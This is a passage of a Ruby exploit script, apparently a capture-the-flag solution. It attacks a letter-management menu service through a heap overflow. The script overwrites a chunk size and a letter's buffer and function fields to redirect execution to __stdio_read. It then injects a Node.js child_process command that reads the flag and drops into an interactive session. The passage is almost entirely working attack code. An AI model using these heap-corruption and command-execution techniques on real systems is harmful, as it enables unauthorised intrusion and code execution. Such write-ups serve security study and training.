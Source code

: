 ```ruby
end

def add_letter(size, content, to, filter)
  tube.recv_until_prompt
  tube.sendline("1")
  tube.recv_until("Size:\n")
  tube.sendline("#{size}")
  tube.recv_until("Content:\n")
  tube.send(content)
  tube.recv_until("To:\n")
  tube.send(to)
  tube.recv_until_prompt
  tube.sendline("#{filter}")
end

def delete_letter(index)
  tube.recv_until_prompt
  tube.sendline("3")
  tube.recv_until("Index:\n")
  tube.sendline("#{index}")
end

def seal_letter
  tube.recv_until_prompt
  tube.sendline("5")
end

PwnTube.open(host, port){|t|
  @tube = t

  cmd = "require('child_process').exec('cat flag',(a,b,c)=>console.log(b+c))\0"

  puts "[*] prepare"
  add_letter(0xc, "A" * 0xb, "1" * 0x1f + "\n", 1)
  add_letter(0xc, "B" * 0xb, "2" * 0x1f + "\n", 1)
  delete_letter(0);

  puts "[*] overwrite chunksize"
  add_letter(0xc, "C" * 0xb, "3" * 0x20 + "\x53", 1)

  puts "[*] overwrite existing letter"
  payload = ""
  payload << "A" * 0x10
  payload << [cmd.length].pack("L")  # length
  payload << [0xff8].pack("L")  # buf (address of "_do_post_letters()"")
  payload << [5].pack("L")  # func (__stdio_read)
  payload << "A" * 0x1f
  add_letter(payload.length + 1, payload, "AAAA\n", 1)

  puts "[*] call __stdio_read"
  tube.recv_until_prompt
  tube.sendline("5")

  puts "[*] send command to execute"
  tube.send(cmd)

  tube.interactive
}
```
